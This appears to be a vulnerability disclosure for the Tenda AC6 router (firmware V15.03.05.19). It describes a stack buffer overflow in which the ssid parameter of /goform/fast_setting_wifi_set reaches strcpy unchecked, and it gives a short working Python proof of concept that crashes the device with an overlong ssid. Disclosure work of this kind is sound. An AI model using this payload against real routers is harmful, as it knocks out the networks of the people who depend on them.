 # Tenda Router AC6 Vulnerability
This vulnerability lies in the `/goform/fast_setting_wifi_set` page which influences the lastest version of Tenda Router AC6_V15.03.05.19. (The latest version is [AC6_V15.03.05.19](https://www.tenda.com.cn/download/detail-2681.html))
## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function `form_fast_setting_wifi_set`.

In function `form_fast_setting_wifi_set` it reads user provided parameter `ssid` into src`, and this variable is passed into function `strcpy` without any length check, which may overflow the stack-based buffer `s`.
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/AC6/210_1/vlun2.png)

So by requesting the page `/goform/fast_setting_wifi_set`, the attacker can easily perform a Deny of Service Attack.
## POC
```
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/fast_setting_wifi_set?"
url += "ssid=" + "s" * 100

response = requests.get(url)
```
## Timeline
2023-2-15: Report to CVE
## Acknowledgment
Credit to [@Funcy_kilar](https://github.com/Funcy33) from Guangzhou University.
